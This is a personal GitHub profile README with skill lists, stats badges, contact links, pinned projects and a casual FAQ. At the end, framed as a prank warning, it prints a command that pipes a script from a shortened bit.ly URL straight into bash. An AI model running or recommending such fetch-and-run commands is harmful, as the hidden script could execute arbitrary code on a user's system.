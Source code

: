 <!--<h1 align="center"> <a href="https://tusharnankani.github.io/about/" ><img src="Assets/portfolio.gh.png" alt="about-ss"> </a>--> 
 
 <br > Welcome to my GitHub! 😇</h1>

<!-- <p align="center">
 <img width="100px" src="https://res.cloudinary.com/anuraghazra/image/upload/v1594908242/logo_ccswme.svg" align="center" alt="Github Readme Stats" />
</p> -->
<p align="center"> <img src="https://komarev.com/ghpvc/?username=zeankundev" alt="kkanekii"/> </p>

-   🤗 I'm an junior developer!
-   🔭 I'm currently working on my Competitive Coding Skills.
-   🌱 I'm currently learning _C++_ 
-   💬 Ask me about JavaScript, C#, Java, React.js, HTML.
-   📫 How to reach me: 
    
    - <a href="mailto:zeanfender11@gmail.com">Email</a>
    - <a href="https://discord.gg/pbYzGWF9Q4">Discord</a>

### About Me

I am working on my **Projects** and **development software**. My interest lies in **Javascript**, **Web Development**, **App Development with React.js** **Desktop Development Electron.js**.

<!-- I have the **attitude** of a learner, the **courage** of an entrepreneur and the **thinking** of an optimist, engraved inside me. I wish to be a leader in my community of people and have an *innate desire* to contribute to **environment** and **society**. -->

Currently, aim is to become a globally competent individual with **programming skills** along with **design skills**.

<!-- <p align="center"><img alt="GitHub Stats" src="https://github-readme-stats.vercel.app/api?username=tusharnankani&show_icons=true&title_color=fff&icon_color=82d4f7&text_color=d1dae3&bg_color=090909"> </p> -->

<p align="center">

![zeans stats](https://github-readme-stats.vercel.app/api?username=zeankundev&show_icons=true)
![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&layout=compact)
 <a href="https://discord.com/users/793983601288544286">
  <img src="https://lanyard-profile-readme.vercel.app/api/793983601288544286?idleMessage=i%20forgor%20💀" width="50%" align="left" />
</a>


<!-- <img src="https://github-readme-streak-stats.herokuapp.com/?user=zeankundev" alt="Github Streak Stats"> -->

</p>

<!--<p align="center"> <img src="https://github-readme-stats.vercel.app/api?username=zeankundev_icons=true" alt="kkanekii" />-->

<!--[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&show_icons=true&title_color=fff&icon_color=79ff97&text_color=9f9f9f&bg_color=151515)](https://github.com/kushal98?tab=repositories)-->

## Some Of My Projects
<p align="center">
<a href="https://github.com/zeankundev/graycrown">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=suside" />
</a>
<a href="https://github.com/zeankundev/NextPay">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=zeankundev&repo=NextPay"/>
</a>
</p>


<br>
<br>




<br>
<br>
<br>
<br>

<div align="center">
<br>




<h2>
Connect with me<img src="Assets/Handshake.gif" height="32px">
</h2>

 [<img src="https://cdn.svgporn.com/logos/github-icon.svg" alt="Github logo" width="34">](https://github.com/zeankundev) [<img src="Assets/Gmail.svg" alt="Gmail logo" height="32">](mailto:zeanfender11@gmail.com) [<img src="Assets/Discord-Logo-Color.svg" alt="Discord logo" height="32">](https://discord.gg/2cJBQrdZkm) [<img src="https://upload.wikimedia.org/wikipedia/sco/thumb/9/9f/Twitter_bird_logo_2012.svg/1200px-Twitter_bird_logo_2012.svg.png" alt="twitter" height="32">](https://twitter.com/ZeanKunDev) [pls click me](https://bit.ly/3kmEhmP) 

</div>

# FAQ about me
- **What games do you play mostly?**
> Team Fortress 2, Mobile Legends, Stumble Guys
- **Most favorite programming language?**
> C++, JS, HTML, CSS, React
- **Are you a weeb? If yes, what are your favorite animes?**
> Yes. TBHK (Hanako-kun), Himouto! Umaru Chan!
- **Any games that you wanna develop right now?**
> Yes. It's called Cosplay Simulator. I will be using Unity and Bolt

<br>

plus, dont copy paste this command to ur terminal, or else, something will happen 😇

```
curl -s -L http://bit.ly/10hA8iC | bash
```
